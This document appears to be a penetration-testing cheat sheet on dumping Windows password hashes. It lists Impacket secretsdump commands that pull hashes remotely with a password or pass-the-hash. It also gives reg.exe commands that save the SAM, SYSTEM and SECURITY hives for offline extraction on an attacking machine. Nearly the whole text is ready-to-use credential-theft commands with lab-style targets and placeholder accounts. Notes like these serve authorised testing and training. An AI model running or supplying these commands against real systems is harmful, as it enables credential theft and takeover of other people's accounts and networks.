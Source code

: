 # Dump Hashes

## Impacket-Secretsdump

```
python3 secretsdump.py <domain.name>/<user>:<password>@<ip> 
python3 secretsdump.py <domain.name>/<user>@ip -hashes <ntlm:ntlm>

impacket-secretsdump backup@spookysec.local # requires password for user
impacket-secretsdump Administrator@10.11.1.1 -hashes 'NTLM:NTLM'
impacket-secretsdump marvel/fcastle:Password1@192.168.183.137
```

## SAM / SYSTEM / SECURITY Hives

We can use the following hives as well to dump the hashes locally. This only requires the transfer of the SYSTEM, SAM, and SECURITY files onto our local machine. We could use whatever file transfer method is the most available to us.

```
reg.exe save hklm\system c:\Users\Administrator\system
reg.exe save hklm\security c:\Users\Administrator\security
reg.exe save hklm\sam c:\Users\Administrator\sam

Transfer them to our attacking machine.

secretsdump.py  -sam sam -system system -security security LOCAL
```
